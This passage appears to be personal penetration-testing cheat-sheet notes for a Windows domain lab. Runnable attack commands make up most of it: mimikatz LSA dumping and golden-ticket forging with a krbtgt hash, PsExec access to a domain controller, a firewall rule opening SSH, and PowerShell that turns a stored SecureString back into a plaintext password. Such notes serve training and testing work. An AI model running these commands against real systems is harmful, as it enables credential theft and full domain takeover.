 ```bash
New-NetFirewallRule -DisplayName "SSH" -Direction Inbound -Protocol TCP -LocalPort 22 -Action Allow
```

#### Privesccheck

It was recommended to use this in addition to winpeas, 'https://github.com/itm4n/PrivescCheck'.

#### Golden Ticket

```bash
mimikatz # privilege::debug
mimikatz # lsadump::lsa /patch
mimikatz # kerberos::purge
mimikatz # kerberos::golden /user:jen /domain:corp.com /sid:S-1-5-21-1987370270-658905905-1781884369 /krbtgt:1693c6cefafffc7af11ef34d1c788f47 /ptt
mimikatz # misc::cmd # Launch a new command prompt
```

```bash
# Verify
C:\Tools\SysinternalsSuite>PsExec.exe \\dc1 cmd.exe
```

#### If You Find a Weird Hash

```bash
type automation.txt
01000000d08c9ddf0115d1118c7a00c04fc297eb0100000001e86ea0aa8c1e44ab231fbc46887c3a0000000002000000000003660000...

echo "01000000d08c9ddf0115d1118c7a00c0..." > cred.txt

$pw = Get-Content cred.txt | ConvertTo-SecureString
$bstr = [System.Runtime.InteropServices.Marshal]::SecureStringToBSTR($pw)
$UnsecurePassword = [System.Runtime.InteropServices.Marshal]::PtrToStringAuto($bstr)
$UnsecurePassword
hHO_S9gff7ehXw
```

#### Refer to NXC.sh for some cool uses

Save all hashes, passwords, and users in a file so that you can automate the enumeration process of various protocols.

#### If None of Your Commands Work

If you're in a shit shell, try exporting a proper path:

```bash
set PATH=%SystemRoot%\system32;%SystemRoot%;
```

#### Locally Running Apps

Look through the applications in "c:\program files" and "c:\program files (x86)", and run them through the exploit database to see if you can abuse a public privilege escalation.


[CLIENTWK220]: PS C:\Users\daveadmin\Documents> whoami
[192.168.50.73]: PS C:\Users\jen\Documents> whoami
[192.168.50.73]: PS C:\Users\jen\Documents> hostname